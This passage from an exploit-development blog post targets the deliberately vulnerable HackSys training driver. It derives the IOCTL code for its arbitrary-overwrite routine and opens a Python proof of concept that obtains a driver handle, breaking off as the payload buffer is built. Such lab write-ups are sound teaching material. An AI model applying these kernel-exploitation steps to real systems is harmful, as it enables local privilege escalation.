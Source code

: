 After tracing the IOCTL routine that jumps into the `TriggerArbitraryOverwrite()` function, here is what is displayed:

<img src="{{ site.url }}{{ site.baseurl }}/images/ARB2.png" alt="">

The above routine is part of a chain as displayed as below:

<img src="{{ site.url }}{{ site.baseurl }}/images/ARB3.png" alt="">

Now time to calculate the IOCTL code - which allows us to interact with the vulnerable routine. Essentially, look at the very first routine from above, that was utilized for my last blog post. The IOCTL code was `0x222003`. (Notice how the value is only 6 digits, even though x86 requires 8 digits in a memory address. `0x222003` = `0x00222003`) The instruction of `sub eax, 0x222003` will yield a value of zero, and the `jz short loc_155FB` (jump if zero) will jump into the `TriggerStackOverflow()` function. So essentially using deductive reasoning, EAX contains a value of `0x222003` at the time the jump is taken.

Looking at the second and third routines in the image above:

```nasm
sub eax, 4
jz short loc_155E3
```
and

```nasm
sub eax, 4
jz short loc_155CB
```
Our goal is to successfully complete the "jump if zero" jump into the applicable vulnerability. In this case, the third routine shown above, will lead us directly into the `TriggerArbitraryOverwrite()`, if the corresponding "jump if zero" jump is completed.

If EAX is currently at `0x222003`, and EAX is subtracted a total of 8 times, let's try adding 8 to the current IOCTL code from the last exploit - `0x222003`. Adding 8 will give us a value of `0x22200B`, or `0x0022200B` as a legitimate x86 value. That means by the time the value of EAX reaches the last routine, it will equal `0x222003` and make the applicable jump into the `TriggerArbitraryOverwrite()` function!

Proof Of Concept
---
Utilizing the newly calculated IOCTL, let's create a POC:

```python
import struct
import sys
import os
from ctypes import *
from subprocess import *

# DLLs for Windows API interaction
kernel32 = windll.kernel32
ntdll = windll.ntdll
psapi = windll.Psapi

# Getting handle to driver to return to DeviceIoControl() function
print "[+] Using CreateFileA() to obtain and return handle referencing the driver..."
handle = kernel32.CreateFileA(
    "\\\\.\\HackSysExtremeVulnerableDriver", # lpFileName
    0xC0000000,                         # dwDesiredAccess
    0,                                  # dwShareMode
    None,                               # lpSecurityAttributes
    0x3,                                # dwCreationDisposition
    0,                                  # dwFlagsAndAttributes
    None                                # hTemplateFile
)

poc = "\x41\x41\x41\x41"                # What
```